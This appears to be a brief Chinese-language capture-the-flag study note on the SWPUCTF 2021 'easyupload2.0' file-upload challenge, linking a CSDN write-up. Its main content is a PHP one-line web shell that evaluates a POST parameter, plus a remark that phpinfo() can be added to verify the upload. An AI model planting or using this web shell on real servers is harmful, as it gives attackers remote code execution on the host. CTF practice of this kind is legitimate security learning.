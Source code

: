 # UPload

[[SWPUCTF 2021 新生赛\]easyupload2.0-CSDN博客](https://blog.csdn.net/qq_62046696/article/details/124736386)

```php
<?php @eval($_POST['Lyrio']);phpinfo();?>
```

除了一句话木马，也可以添加phpinfo()访问

![微信截图_20241201204051](C:\Users\Administrator\Desktop\PICTURES\php\存放wp的文件，图片\微信截图_20241201204051.png)